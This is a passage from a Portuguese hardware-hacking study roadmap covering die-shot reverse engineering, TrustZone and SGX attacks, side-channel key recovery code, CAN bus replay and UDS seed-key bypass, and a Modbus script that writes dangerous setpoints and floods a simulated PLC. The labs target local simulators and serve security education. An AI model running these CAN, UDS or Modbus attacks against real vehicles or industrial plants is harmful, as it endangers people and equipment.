4. **Pesquise acesso a SEM**: universidades brasileiras com laboratórios de microscopia eletrônica (UNICAMP, USP, UFRJ, INPE)
5. **Prompt IA**: *"Dado este die shot de um microcontrolador [imagem/descrição], identifique os blocos funcionais visíveis. O array regular no canto superior esquerdo é provavelmente flash ou SRAM?"*
6. **Entregável**: Análise anotada de 3 die shots + identificação de blocos + pesquisa de acesso a SEM

---

### Módulo C.3: Engenharia Reversa de Gate-Level
**Tempo: 3.5h**

#### O que memorizar
- **Standard cells**: portas lógicas pré-definidas (NAND, NOR, INV, FF) com layout padronizado — reconhecíveis em die shots
- **Gate-level netlist**: representação textual de como as portas lógicas estão conectadas
- **Processo de RE**: die shot → identificar standard cells → mapear conexões → gerar netlist → analisar em nível lógico
- **Ferramentas**: Degate (open-source, GUI para marcar gates e traces), Silicon Toolkit, scripts Python custom
- **Desafios**: chips modernos têm bilhões de transistores em múltiplas camadas — automatização é essencial
- **Técnicas anti-RE**: camouflaged gates (gates que parecem iguais mas têm funções diferentes), logic obfuscation, active shields

#### Intuição
Este é o trabalho caro de um "arqueólogo de silício". Dado um die shot de um chip desconhecido/proprietário, o objetivo é reconstruir a lógica digital que foi implementada — essencialmente fazer reverse engineering do hardware como se fosse código. Em chips simples (8-bit microcontrollers vintage), é factível manualmente. Em chips modernos, requer automação pesada e meses de trabalho. Mas o resultado é devastador: você tem acesso à "source HDL" do chip — incluindo circuitos de segurança, chaves de criptografia hardwired, e mecanismos anti-tamper.

#### Projeto: "Gate-Level RE de Chip Simples"
1. **Use die shots de chips vintage** (disponíveis no siliconpr0n.org) — comece com algo simples como um 7400 (NAND gate IC)
2. **Identifique transistores individuais** no die shot — num processo grande (µm), transistores são individualmente visíveis
3. **Mapeie transistores → portas lógicas**:
   - 2 PMOS + 2 NMOS em configuração específica = NAND
   - Documente cada gate identificada
4. **Trace as interconexões** entre gates → gere um netlist
5. **Simule o netlist** em Verilog para verificar que a função corresponde ao esperado
6. **Se ambicioso**, repita com um chip mais complexo (ex: Intel 4004, ataque clássico de RE de silício)
7. **Estude o paper de Chipworks** (agora TechInsights) sobre RE de silício para processos modernos
8. **Entregável**: Netlist reconstruído de um chip simples + simulação + documentação do processo

---

### Módulo C.4: FIB Circuit Editing e Contramedidas
**Tempo: 2h (teórico)**

#### O que memorizar
- **FIB capabilities**: cortar trilhas (milling), depositar metal/isolante (deposition), criar novas conexões (circuit edit)
- **Aplicações ofensivas**: desabilitar fuse de proteção, bypassar mesh de detecção, expor barramento de debug interno
- **Contramedidas**: active mesh (rede de fios de detecção sobre o die — FIB cortar um fio aciona autodestruição), environmental sensors (luz, temperatura, voltagem), encrypted fuses
- **Custo de ataque**: $10K-50K por chip (tempo de FIB + operador especializado)
- **Quem faz**: labs de pesquisa de segurança (Riscure, NinjaLab, TechInsights), agências governamentais, grandes empresas de semicondutores

#### Intuição
FIB circuit editing é o "God Mode" absoluto de hardware hacking — e também o mais caro e difícil. Com um FIB, você literalmente opera no chip com precisão nanométrica: corta trilhas, faz novas conexões, e modifica a lógica do chip. Imagine poder editar o código-fonte de um processador enquanto ele está soldado na placa. Na prática, é usado para: desabilitar proteções RDP/CRP cortando o fuse bit, conectar sondas internas a pads acessíveis, e bypassar malhas de proteção.

#### Projeto: "Estudo de Ataques FIB e Contramedidas"
1. **Leia o paper**: "Semi-invasive attacks – A new approach to hardware security analysis" (Skorobogatov)
2. **Pesquise** casos reais de ataques FIB:
   - NinjaLab: clonagem de chaves de segurança Google Titan (ECDSA key extraction via EM side-channel + FIB probing)
   - Limitedresults: exploração de ESP32 Secure Boot via FIB (corte de fuse)
3. **Documente** para 3 MCUs a viabilidade de ataque FIB:
   - Custo estimado, proteções existentes (active mesh? sensor de luz?), e bypasses conhecidos
4. **Projete (no papel)** uma contramedida: active mesh com redundância — como projetá-la para resistir a FIB?
5. **Entregável**: Relatório de pesquisa + análise de viabilidade + design de contramedida

#### Checkpoint — Fim da Fase C
- [ ] Entende o processo de decapping e por que é feito
- [ ] Consegue analisar die shots e identificar blocos funcionais
- [ ] Sabe a diferença entre SEM e FIB e quando cada um é usado
- [ ] Entende técnicas anti-RE (camouflaged gates, active mesh)

---

## Fase D — TEE e Arquiteturas Seguras

### Módulo D.1: ARM TrustZone — Arquitetura e Superfícies de Ataque
**Tempo: 3h**

#### O que memorizar
- **TrustZone**: extensão hardware nos processadores ARM que divide o sistema em **Secure World** e **Normal World**
- **Exception Levels**: EL0 (userspace), EL1 (kernel), EL2 (hypervisor), EL3 (monitor/firmware) — Secure World tem seus próprios EL0-EL1
- **SMC (Secure Monitor Call)**: instrução que transfere controle do Normal para o Secure World
- **TEE OS**: sistema operacional do Secure World — OP-TEE (open-source), QSEE (Qualcomm), Kinibi (Trustonic)
- **Trusted Applications (TAs)**: apps que rodam no Secure World — gerenciam chaves, DRM, biometria
- **Superfícies de ataque**: SMC handler (validação de input), TAs (bugs clássicos: buffer overflow), Secure Boot chain, shared memory

#### Intuição
No roadmap básico, obter root no Linux embarcado era o objetivo final. No mundo dos smartphones e dispositivos modernos, root no Linux é **apenas o começo**. As informações mais valiosas (chaves de criptografia, dados biométricos, tokens de DRM) ficam no Secure World — isolado do Linux por hardware. Explorar TrustZone é como arrombar o cofre depois de já ter invadido o banco. Requer exploit development ARM de alto nível, entendimento profundo da arquitetura, e muitas vezes combinação com side-channel ou fault injection.

#### Projeto: "OP-TEE Lab"
1. **Configure OP-TEE no QEMU** (emulação completa!):
   ```bash
   # Clone e compile OP-TEE para QEMU ARMv8
   mkdir optee && cd optee
   repo init -u https://github.com/OP-TEE/manifest.git -m qemu_v8.xml
   repo sync
   cd build
   make toolchains
   make run  # Compila tudo e roda no QEMU!
   ```
2. **Explore o ambiente**: você terá um shell Linux (Normal World) e acesso ao OP-TEE
3. **Compile e rode uma Trusted Application (TA) de exemplo**:
   ```bash
   # O OP-TEE vem com TAs de exemplo
   # Rode o "hello world" TA a partir do Normal World
   optee_example_hello_world
   ```
4. **Analise o código de uma TA**:
   - Entenda a interface TA_OpenSessionEntryPoint, TA_InvokeCommandEntryPoint
   - Identifique como dados são passados entre Normal e Secure (shared memory)
   - Procure potenciais bugs: validação de input, bounds checking
5. **Exercício de exploit**: tente encontrar um bug intencional nas TAs de exemplo do OP-TEE (CVEs documentadas existem)
6. **Prompt IA**: *"Analise este código de uma Trusted Application OP-TEE. Identifique vulnerabilidades de memória e como poderiam ser exploradas para escapar do Secure World."*
7. **Entregável**: OP-TEE rodando no QEMU + análise de TA + potenciais vulnerabilidades documentadas

---

### Módulo D.2: Exploitation de TrustZone
**Tempo: 3h**

#### O que memorizar
- **ARM exploit primitives**: stack buffer overflow → ROP chain → arbitrary read/write → code execution
- **Mitigações em TrustZone**: ASLR no Secure World (nem sempre implementado), stack canaries, DEP/NX
- **Escape do Secure World**: do EL0-S (TA) → EL1-S (TEE kernel) → EL3 (monitor) = controle total
- **Papers fundamentais**:
  - Quarkslab: "Attacking the ARM's TrustZone"
  - Gal Beniamini: "Extracting Qualcomm's KeyMaster Keys"
  - Tencent Keen Lab: Samsung TrustZone exploits
- **Abordagem prática**: fuzzing de SMC calls, análise de TAs comerciais extraídas de firmware de smartphones

#### Intuição
Explorar TrustZone é o "final boss" do exploitation ARM. As mitigações são (teoricamente) mais fortes que no Normal World, mas implementações comerciais frequentemente têm bugs. A pesquisa de Gal Beniamini mostrou que até o Qualcomm KeyMaster (que protege chaves de criptografia do Android) tinha vulnerabilidades exploráveis. O fluxo típico: extrair firmware do smartphone → identificar as TAs → reverse engineer com Ghidra → encontrar bug → desenvolver exploit → extrair chaves do Secure World.

#### Projeto: "TrustZone Vulnerability Research"
1. **Estude o blog post de Gal Beniamini** sobre QSEE exploitation:
   - [bits-please.blogspot.com](https://bits-please.blogspot.com/)
   - Trace o caminho do exploit: entrada (SMC call) → bug (overflow) → controle de execução → exfiltração de chaves
2. **No QEMU + OP-TEE**, escreva uma TA propositalmente vulnerável:
   ```c
   // trusted_app_vuln.c - TA com buffer overflow intencional
   TEE_Result TA_InvokeCommandEntryPoint(void *sess_ctx, uint32_t cmd_id,
                                          uint32_t param_types, TEE_Param params[4]) {
       char buffer[64];
       // VULNERABILIDADE: copia input sem verificar tamanho
       TEE_MemMove(buffer, params[0].memref.buffer, params[0].memref.size);
       // ...
   }
   ```
3. **Explore** a TA vulnerável a partir do Normal World
4. **Pesquise e documente** 3 CVEs reais em TEEs comerciais (QSEE, Kinibi, Trusty):
   - Tipo de vulnerabilidade, impacto, e como foi explorada
5. **Entregável**: TA vulnerável + exploit PoC + pesquisa de CVEs reais

---

### Módulo D.3: Intel SGX e Outros Enclaves
**Tempo: 2h**

#### O que memorizar
- **SGX (Software Guard Extensions)**: enclaves criptografados na memória — nem o OS, nem o hypervisor podem ler
- **Ataques a SGX**: Spectre/Meltdown (vazamento via side-channel de CPU), Foreshadow/L1TF, Plundervolt (fault injection via software)
- **AMD SEV (Secure Encrypted Virtualization)**: criptografia de VMs — similar em conceito, diferente em implementação
- **Diferença TrustZone vs SGX**: TrustZone = 2 mundos separados por hardware, SGX = enclaves por aplicação, ambos na mesma CPU
- **Confidential Computing**: paradigma moderno que usa TEEs para proteger dados em processamento (Azure, GCP, AWS)

#### �� Intuição
SGX é fascinante porque tenta proteger dados **até do sistema operacional e do administrador**. A ideia: código roda dentro de um "enclave" criptografado — nem root pode ver. Parece perfeito, mas pesquisadores encontraram ataques devastadores: Spectre pode vazar dados de dentro dos enclaves via cache side-channel, e Plundervolt mostrou que é possível fazer fault injection em SGX via software (manipulando o registro de voltagem da CPU). Intel anunciou a descontinuação de SGX em CPUs de desktop (12ª geração+), mas continua em servidores.

#### Projeto: "SGX Security Analysis"
1. **Se tiver CPU Intel com SGX** (pré-12ª geração):
   - Instale o SGX SDK e compile uma aplicação de exemplo
   - Estude o modelo de ameaça do SGX
2. **Para todos**: estude os ataques a SGX:
   - Leia o paper de Foreshadow/L1TF
   - Analise o Plundervolt (voltage fault injection via MSR registers)
   - Estude como Spectre v2 afeta enclaves SGX
3. **Compare TEEs**:
   | | ARM TrustZone | Intel SGX | AMD SEV |
   |---|---|---|---|
   | Granularidade | 2 mundos | Por enclave | Por VM |
   | Atacante | Root no Normal World | Root + hypervisor | Hypervisor |
   | HW attacks | Fault injection | Side-channel CPU | Ciphertext attacks |
4. **Entregável**: Tabela comparativa detalhada + análise de 3 ataques a SGX

---

### Módulo D.4: Secure Boot Avançado e Root of Trust
**Tempo: 2.5h**

#### O que memorizar
- **Chain of Trust**: ROM boot code (imutável) → verifica bootloader → bootloader verifica kernel → kernel verifica userspace
- **Root of Trust**: o primeiro elo da cadeia — geralmente em ROM ou OTP fuses. Se este for comprometido, tudo cai
- **Ataques ao Secure Boot**: fault injection durante verificação de assinatura, downgrade para versão sem secure boot, exploração do bootloader antes do kernel
- **Hardware Root of Trust**: TPM (Trusted Platform Module), Apple T2/M1 Secure Enclave, Google Titan
- **Anti-rollback**: proteção contra downgrade de firmware (monotonic counter em OTP)

#### Intuição
Secure Boot é a "primeira linha de defesa" de um dispositivo. Quando implementado perfeitamente, o dispositivo recusa executar qualquer código não assinado — game over para o atacante. Na prática, falhas existem: o bootloader pode ter bugs, a verificação de assinatura pode ser glitchada, versões antigas (sem a correção) podem ser reinstaladas. O ataque mais elegante é o **downgrade**: se a versão v1.0 do firmware tinha uma vulnerabilidade e a v2.0 corrigiu, instalar a v1.0 de volta (se não houver anti-rollback) restaura a vulnerabilidade.

#### Projeto: "Secure Boot Attack Lab"
1. **No QEMU + OP-TEE**: estude como o Secure Boot está implementado
   - Trace o boot flow: ATF (ARM Trusted Firmware) → OP-TEE → Linux
   - Identifique onde as verificações de assinatura acontecem
2. **Estude a Fusée Gelée** (exploit Nintendo Switch):
   - Vulnerabilidade no bootloader ROM (Tegra X1) — UNFIXÁVEL sem recall de hardware
   - Entenda por que uma falha no boot ROM é catastrófica (ROM = impossível de patchar)
3. **Estude o checkm8** (exploit Apple):
   - Vulnerabilidade no SecureROM do A5-A11 — bypass permanente do Secure Boot
4. **Documente** o conceito de anti-rollback e como implementar com monotonic counters
5. **Entregável**: Análise do boot flow + estudo de caso de 2 exploits de boot ROM

#### Checkpoint — Fim da Fase D
- [ ] Consegue compilar e rodar OP-TEE no QEMU e interagir com TAs
- [ ] Entende a diferença entre TrustZone, SGX e SEV
- [ ] Sabe por que uma falha no Boot ROM é "unfixable"
- [ ] Consegue identificar superfícies de ataque em cadeia de Secure Boot

---

## Fase E — Criptoanálise Avançada

### Módulo E.1: Matemática para Side-Channel Avançado
**Tempo: 3h**

#### O que memorizar
- **Correlação de Pearson**: mede relação linear entre duas variáveis (-1 a +1). Base do CPA (Correlation Power Analysis)
- **Hamming Weight/Hamming Distance**: modelos de leakage — HW conta bits 1, HD conta bits que mudaram
- **Mutual Information Analysis (MIA)**: generalização que captura relações não-lineares (melhor que CPA em certas situações)
- **Template Attacks**: método mais poderoso (no sentido estatístico) — constrói modelo probabilístico do leakage
- **SNR (Signal-to-Noise Ratio)**: quanto maior, menos traces você precisa. Calcular SNR é o primeiro passo de qualquer análise
- **Estatística multivariada**: PCA (Principal Component Analysis), LDA (Linear Discriminant Analysis) — reduzem dimensionalidade

#### Intuição
No roadmap básico, você rodou CPA no ChipWhisperer com notebooks prontos. Aqui, você entende **por que** funciona. CPA funciona porque o consumo de energia é (aproximadamente) linearmente correlacionado com o Hamming Weight dos dados processados. Quando a correlação falha (contramedidas, noise), você precisa de ferramentas mais sofisticadas: MIA captura relações não-lineares, Template Attacks modelam a distribuição completa do leakage. A matemática não é trivial, mas é acessível com background de estatística básica.

#### Projeto: "Implementando CPA do Zero"
1. **NÃO use o software do ChipWhisperer** — implemente CPA em Python puro:
   ```python
   import numpy as np
   
   def cpa_attack(traces, plaintexts, byte_index):
       """
       Ataque CPA implementado do zero.
       traces: array (N, T) — N traces de poder com T amostras cada
       plaintexts: array (N, 16) — plaintexts usados em cada trace
       byte_index: qual byte da chave estamos atacando
       """
       AES_SBOX = [0x63,0x7c,0x77,...] # S-Box completa do AES
       
       num_traces, num_samples = traces.shape
       correlations = np.zeros((256, num_samples))
       
       for key_guess in range(256):
           # Modelo de leakage: Hamming Weight da saída da S-Box
           hypothesis = np.array([
               bin(AES_SBOX[pt[byte_index] ^ key_guess]).count('1')
               for pt in plaintexts
           ])
           
           # Correlação de Pearson entre hipótese e cada ponto da trace
           for t in range(num_samples):
               correlations[key_guess, t] = np.corrcoef(
                   hypothesis, traces[:, t]
               )[0, 1]
       
       # A chave correta tem a maior correlação
       best_key = np.argmax(np.max(np.abs(correlations), axis=1))
       return best_key, correlations
   ```
2. **Teste com traces do ChipWhisperer** (disponíveis publicamente):
   - Baixe traces de AES-128: [ChipWhisperer tutorial traces](https://github.com/newaetech/chipwhisperer-jupyter)
3. **Visualize**: plote a correlação para cada key guess vs número de traces
4. **Calcule SNR**: `SNR = Var(signal) / Var(noise)` — quanto menor, mais traces necessárias
5. **Compare**: quantas traces seu CPA precisa vs o CPA do ChipWhisperer?
6. **Entregável**: Implementação CPA completa + visualizações + análise de performance

---

### Módulo E.2: Contramedidas e Bypass
**Tempo: 3h**

#### O que memorizar
- **Masking**: dividir cada variável intermediária em shares aleatórios. x = x₁ ⊕ x₂ (boolean masking). Atacante precisa de leakage de TODAS as shares simultaneamente
- **Shuffling**: randomizar a ordem de operações (ex: processar os 16 bytes de AES em ordem aleatória)
- **Noise injection**: adicionar consumo de energia aleatório para reduzir SNR
- **Dual-rail logic**: circuitos que consomem energia constante independente dos dados
- **Higher-order attacks**: para bypass de masking de 1ª ordem, combinar leakage de 2 pontos diferentes (2ª ordem)
- **Leakage assessment**: Test Vector Leakage Assessment (TVLA) — testa se uma implementação "vaza" com confiança estatística

#### �� Intuição
Masking é a contramedida mais eficaz contra side-channel: se cada variável é dividida em 2 shares aleatórias, o atacante precisa combiná-las antes de correlacionar — isso requer exponencialmente mais traces (ataque de 2ª ordem). Mas masking tem falhas: **glitches** em hardware (transitions entre shares que momentaneamente revelam o valor real), ** higher-order attacks** (combinar leakages de múltiplos pontos), e **fault injection** (forçar uma share a zero, revelando a outra). O jogo: criptógrafos adicionam ordens de masking, atacantes desenvolvem ataques de ordem mais alta.

#### �� Projeto: "Quebrando Masking"
1. **Implemente AES com masking boolean de 1ª ordem** em Python:
   ```python
   def masked_sbox(x, mask_in, mask_out):
       """S-Box mascarada: input x ⊕ mask_in, output S(x) ⊕ mask_out"""
       # Implementação que nunca processa x "limpo"
       return AES_SBOX[x ^ mask_in] ^ mask_out
   ```
2. **Simule traces de power** com e sem masking:
   - Sem masking: leakage = HW(S(pt ⊕ key))
   - Com masking: leakage = HW(S(pt ⊕ key) ⊕ mask) — correlação de 1ª ordem desaparece
3. **Implemente ataque de 2ª ordem**: combine leakage de 2 pontos (centred product)
4. **Compare**: quantas traces CPA precisa sem vs com masking vs ataque de 2ª ordem
5. **Entregável**: Implementação de masking + ataque 2ª ordem + comparação de eficácia

---

### Módulo E.3: Template Attacks e Deep Learning SCA
**Tempo: 3h**

#### O que memorizar
- **Template Attack**: fase de profiling (dispositivo clone com chave conhecida) + fase de ataque (dispositivo alvo)
- **Profiling**: para cada valor intermediário possível (0-255), calcule a média e covariância das traces → template
- **Matching**: dado uma trace do alvo, calcule a probabilidade de cada key guess dado o template
- **Deep Learning SCA**: redes neurais (CNNs, MLPs) substituem templates — lidam melhor com desalinhamento e contramedidas
- **Frameworks**: ASCAD (public dataset + framework para DL-SCA), SCABench
- **Vantagem de DL**: não precisa de modelo explícito de leakage — a rede aprende a relação dados→consumo

#### Intuição
Template Attacks são a "arma nuclear" da criptoanálise side-channel — teoricamente ótimos em termos de informação. O truque é que você precisa de um **dispositivo clone** com chave conhecida para construir o template. Deep Learning SCA é a evolução: treina uma rede neural com traces do dispositivo clone, e a rede aprende a extrair a chave do dispositivo alvo. É especialmente poderoso contra contramedidas como masking e shuffling, onde métodos tradicionais falham. É aqui que IA e hardware hacking convergem de forma mais poderosa.

#### Projeto: "Deep Learning SCA"
1. **Baixe o ASCAD dataset** (traces de AES com masking):
   ```bash
   git clone https://github.com/ANSSI-FR/ASCAD
   # Contém traces + scripts de treinamento
   ```
2. **Treine uma CNN** para extrair a chave:
   ```python
   import tensorflow as tf
   
   model = tf.keras.Sequential([
       tf.keras.layers.Conv1D(64, 11, activation='relu', input_shape=(700, 1)),
       tf.keras.layers.AveragePooling1D(2),
       tf.keras.layers.Conv1D(128, 11, activation='relu'),
       tf.keras.layers.AveragePooling1D(2),
       tf.keras.layers.Flatten(),
       tf.keras.layers.Dense(256, activation='relu'),
       tf.keras.layers.Dense(256, activation='softmax')  # 256 classes = 256 key values
   ])
   model.compile(optimizer='adam', loss='categorical_crossentropy', metrics=['accuracy'])
   ```
3. **Treine e avalie**: quantas traces de profiling e de ataque são necessárias?
4. **Compare com CPA**: em que cenários DL-SCA supera CPA?
5. **Entregável**: Modelo treinado + métricas de sucesso + comparação CPA vs DL-SCA

---

### Módulo E.4: Criptoanálise de Algoritmos Proprietários
**Tempo: 2.5h**

#### O que memorizar
- **Crypto proprietário**: empresas frequentemente criam suas "próprias" criptografias — quase sempre mais fracas que padrões
- **Análise**: identificar se é simétrico/assimétrico, block/stream cipher, com substituição/permutação/XOR
- **Ataques comuns**: análise de frequência, ataques de texto conhecido (known-plaintext), criptoanálise diferencial/linear
- **Ghidra + crypto**: identificar constantes criptográficas conhecidas (AES S-Box, SHA constants) via busca de padrões
- **Ferramentas**: CryptoIdentifier (Ghidra plugin), findcrypt (IDA plugin), hashid

#### Intuição
Apesar de todo o conhecimento acadêmico sobre criptografia, fabricantes de IoT e dispositivos embarcados continuam inventando suas próprias "cifras" — XOR com chave fixa, substitution ciphers modificadas, ou RC4 com key derivation caseira. Identificar e quebrar essas implementações é uma habilidade prática valorizada. O processo: extrair o firmware → encontrar a função de criptografia no Ghidra → entender o algoritmo → encontrar fraquezas → desenvolver ataque.

#### �� Projeto: "Crypto Reverse Engineering"
1. **Use um firmware real** (ou sample de CTF) que implemente criptografia custom
2. **No Ghidra**:
   - Busque constantes criptográficas conhecidas (0x67452301 = MD5 init, 0x63636363... = AES S-Box)
   - Se não encontrar constantes conhecidas, é provavelmente crypto custom
   - Trace o fluxo de dados (input → transformações → output) e documente o algoritmo
3. **Analise o algoritmo descoberto**:
   - É um XOR simples? → known-plaintext attack trivial
   - Tem S-Box? → analise suas propriedades criptográficas
   - Usa chave derivada? → como é derivada? Pode ser predita?
4. **Implemente o ataque** em Python e demonstre decriptação
5. **Prompt IA**: *"Identifiquei este algoritmo de criptografia no firmware: [pseudocódigo]. É um algoritmo conhecido ou custom? Quais são suas fraquezas?"*
6. **Entregável**: Análise completa do algoritmo custom + exploit + dados decriptados

#### Checkpoint — Fim da Fase E
- [ ] Implementou CPA do zero (sem bibliotecas prontas)
- [ ] Entende masking e sabe implementar ataque de 2ª ordem
- [ ] Treinou uma rede neural para side-channel attack
- [ ] Consegue identificar e analisar criptografia custom em firmware

---

## Fase F — OT, Automotivo e Sistemas Industriais

### Módulo F.1: CAN Bus — Fundamentals e Sniffing
**Tempo: 3h**

#### O que memorizar
- **CAN (Controller Area Network)**: barramento serial broadcast usado em veículos, aviões e automação industrial (desde 1986)
- **Características**: multi-master, arbitragem por prioridade (ID menor = maior prioridade), mensagens broadcast (todos ouvem tudo)
- **Frame CAN**: SOF (1 bit) → Arbitration ID (11/29 bits) → Control (DLC) → Data (0-8 bytes) → CRC → ACK → EOF
- **Velocidades**: CAN clássico até 1 Mbps, CAN FD até 8 Mbps
- **Zero segurança inerente**: sem autenticação (qualquer nó pode enviar qualquer ID), sem criptografia, sem controle de acesso
- **Ferramentas**: can-utils (Linux), SavvyCAN (GUI), Kayak, Caringorm, Wireshark (com módulo CAN)
- **Hardware**: adaptadores CAN-USB (CANtact, PCAN-USB) — $30-100

#### Intuição
CAN Bus é o "sistema nervoso" de todo veículo moderno. Quando você pisa no freio, o pedal envia uma mensagem CAN que a ECU do ABS lê. Quando o motor precisa ajustar a injeção, outra mensagem CAN. O problema: CAN foi projetado nos anos 80 para **confiabilidade**, não segurança. Qualquer ECU no barramento pode enviar qualquer mensagem — não há "login" ou "permissão". Se você conectar um dispositivo no OBD-II port, que é literalmente um conector CAN exposto, pode ler **tudo** que acontece no veículo e **injetar** mensagens para controlar funções como travas, buzina, painel — e em alguns casos, acelerador e freio.

**Analogia**: imagine um grupo de WhatsApp onde ninguém tem nome, qualquer pessoa pode fingir ser qualquer outra, e não dá para bloquear ninguém. Esse é o CAN Bus.

#### Projeto: "CAN Bus Hacking Lab"
1. **Monte um lab virtual CAN**:
   ```bash
   # vcan = virtual CAN interface no Linux
   sudo modprobe vcan
   sudo ip link add dev vcan0 type vcan
   sudo ip link set up vcan0
   
   # Instale can-utils
   sudo apt install can-utils
   ```
2. **Simule tráfego CAN**:
   ```bash
   # Terminal 1: gere tráfego simulando um veículo
   cangen vcan0    # gerador aleatório de frames CAN
   
   # Terminal 2: capture e visualize
   candump vcan0   # captura todas as mensagens
   
   # Terminal 3: envie mensagens específicas
   cansend vcan0 123#DEADBEEF    # envia frame com ID 0x123 e dados DEADBEEF
   ```
3. **Use o ICSim** (Instrument Cluster Simulator):
   ```bash
   git clone https://github.com/zombieCraig/ICSim
   cd ICSim
   make
   # Terminal 1: simulador do painel
   ./icsim vcan0
   # Terminal 2: controlador (simula ações do motorista)
   ./controls vcan0
   # Terminal 3: capture o tráfego
   candump vcan0 -l
   ```
4. **Exercício de RE**: identifique quais CAN IDs controlam:
   - Travas das portas
   - Setas/pisca-pisca
   - Velocímetro
   - (Dica: use `cansniffer vcan0` para ver mudanças em tempo real enquanto interage com os controles)
5. **Ataque de replay**:
   ```bash
   # Grave as mensagens enquanto destrava a porta
   candump vcan0 -l    # salva em candump-*.log
   # Pare a gravação, trave a porta de novo
   # Replaye as mensagens gravadas
   canplayer -I candump-*.log vcan0=vcan0
   # A porta destrava de novo!
   ```
6. **Entregável**: Log de discovery de CAN IDs + ataque de replay + documentação

---

### Módulo F.2: Automotive Security — Ataques Avançados
**Tempo: 3h**

#### O que memorizar
- **UDS (Unified Diagnostic Services)**: protocolo de diagnóstico automotivo (ISO 14229). Roda sobre CAN. Usado por mecânicos e scanners OBD-II
- **Services UDS importantes**: DiagnosticSessionControl (0x10), SecurityAccess (0x27), ReadMemoryByAddress (0x23), WriteMemoryByAddress (0x3D), RequestDownload (0x34)
- **SecurityAccess bypass**: seed-key challenge. Se o algoritmo é fraco ou a seed é previsível, é possível calcular a resposta correta
- **ECU flashing**: reprogramar ECU via UDS — mesma interface usada por oficinas autorizadas
- **ISO/SAE 21434**: padrão de cybersecurity automotiva (publicado 2021) — define melhores práticas
- **Ferramentas**: python-can, scapy (com módulo automotive), Caring, Undagrid

#### Intuição
UDS é o "SSH do carro" — interface de diagnóstico que permite: ler códigos de erro, reprogramar ECUs, ajustar parâmetros de motor, e até flashing de firmware inteiro. O `SecurityAccess` é o "login" — o diagnóstico envia uma seed (número aleatório), e o scanner responde com uma key derivada. Se o algoritmo de derivação for fraco (XOR simples, lookup table, seed com baixa entropia), você pode bypassá-lo e obter acesso total à ECU. Em pesquisa de segurança automotiva, esse é frequentemente o primeiro vetor explorado.

#### Projeto: "UDS Security Research"
1. **Instale python-can e scapy**:
   ```bash
   pip3 install python-can scapy
   ```
2. **Simule uma ECU com SecurityAccess**:
   ```python
   # Simulação de ECU com security access fraco
   import can
   import struct
   
   SECRET_KEY = 0xDEADBEEF
   
   def derive_key(seed):
       """Algoritmo de derivação FRACO (XOR com constante)"""
       return seed ^ SECRET_KEY
   
   # Escuta requests UDS no vcan0 e responde
   bus = can.Bus('vcan0', interface='socketcan')
   for msg in bus:
       if msg.arbitration_id == 0x7E0:  # request para ECU
           service = msg.data[1]
           if service == 0x27:  # SecurityAccess
               subfunction = msg.data[2]
               if subfunction == 0x01:  # requestSeed
                   import random
                   seed = random.randint(0, 0xFFFFFFFF)
                   # Envia seed
                   response = bytes([0x06, 0x67, 0x01]) + struct.pack('>I', seed)
                   bus.send(can.Message(arbitration_id=0x7E8, data=response))
   ```
3. **Escreva um ataque** que descobre a chave pela análise de pares seed-key
4. **Estude o paper** "A Survey of Remote Automotive Attack Surfaces" (Miller & Valasek)
5. **Entregável**: Simulação UDS + ataque de SecurityAccess + estudo de caso

---

### Módulo F.3: Protocolos Industriais — Modbus e PROFINET
**Tempo: 3h**

#### O que memorizar
- **Modbus**: protocolo de 1979, simplíssimo. Modbus RTU (serial), Modbus TCP (Ethernet, porta 502)
- **Registradores Modbus**: Coils (bits R/W), Discrete Inputs (bits RO), Holding Registers (16-bit R/W), Input Registers (16-bit RO)
- **Function Codes**: 0x01 (Read Coils), 0x03 (Read Holding Registers), 0x06 (Write Single Register), 0x10 (Write Multiple)
- **ZERO segurança nativa**: sem autenticação, sem criptografia, sem controle de acesso. Qualquer um na rede pode ler/escrever
- **PROFINET**: protocolo industrial da Siemens (baseado em Ethernet industrial), mais complexo mas também com fraquezas
- **S7comm**: protocolo proprietário da Siemens para comunicação com PLCs — amplamente reversado
- **Ferramentas**: mbtget, pymodbus, metasploit (módulos ICS), Wireshark (dissectors para todos esses protocolos)

#### Intuição
Se CAN bus é o sistema nervoso de um carro, Modbus é o sistema nervoso de uma fábrica. Controladores Lógicos Programáveis (CLPs/PLCs) usam Modbus para ler sensores (temperatura, pressão, nível) e controlar atuadores (válvulas, motores, aquecedores). O protocolo é de 1979 e não tem NENHUMA segurança — foi projetado para redes isoladas. Hoje, muitas dessas redes estão (indevidamente) conectadas à internet. O Stuxnet (2010) demonstrou o que acontece quando atacantes erreachingm PLCs: centrífugas de enriquecimento de urânio do Irã foram destruídas remotamente.

#### Projeto: "ICS Attack Lab"
1. **Monte um lab Modbus virtual**:
   ```bash
   pip3 install pymodbus
   ```
2. **Crie um servidor Modbus simulando uma planta industrial**:
   ```python
   from pymodbus.server import StartTcpServer
   from pymodbus.datastore import ModbusSlaveContext, ModbusServerContext
   from pymodbus.datastore import ModbusSequentialDataBlock
   
   # Simula: coils (válvulas), registers (temperatura, pressão)
   store = ModbusSlaveContext(
       di=ModbusSequentialDataBlock(0, [0]*100),
       co=ModbusSequentialDataBlock(0, [0]*100),  # Válvulas ON/OFF
       hr=ModbusSequentialDataBlock(0, [250, 100, 75, 0]*25),  # Temp, Pressão, Nível...
       ir=ModbusSequentialDataBlock(0, [0]*100)
   )
   context = ModbusServerContext(slaves=store, single=True)
   StartTcpServer(context=context, address=("0.0.0.0", 502))
   ```
3. **Ataque o servidor**:
   ```bash
   # Leia valores (reconhecimento)
   mbtget -a 1 -r3 -n 10 127.0.0.1
   
   # Escreva valores (ATAQUE! — altera temperatura de setpoint)
   mbtget -a 1 -r6 -n 1 -d 999 127.0.0.1
   ```
4. **Escreva um exploit completo em Python**:
   ```python
   from pymodbus.client import ModbusTcpClient
   
   client = ModbusTcpClient('127.0.0.1', port=502)
   client.connect()
   
   # Reconhecimento: ler todos os registradores
   result = client.read_holding_registers(0, 20)
   print(f"Registradores: {result.registers}")
   
   # Ataque: alterar setpoint de temperatura para valor perigoso
   client.write_register(0, 500)  # Temperatura normal: 250, perigoso: 500
   
   # DoS: escrever em loop para saturar o PLC
   for i in range(10000):
       client.write_register(i % 100, 0)
   ```
5. **Analise o Stuxnet**: como ele manipulou os PLCs Siemens S7-300?
6. **Entregável**: Lab completo + exploits + análise do Stuxnet

---

### Módulo F.4: Segurança de PLCs e SCADA
**Tempo: 2.5h**

#### O que memorizar
- **PLC (Programmable Logic Controller)**: computador industrial que controla processos físicos (temperatura, válvulas, motores)
- **Linguagens de PLC**: Ladder Logic (visual, como diagrama elétrico), Structured Text (como Pascal), Function Block Diagram
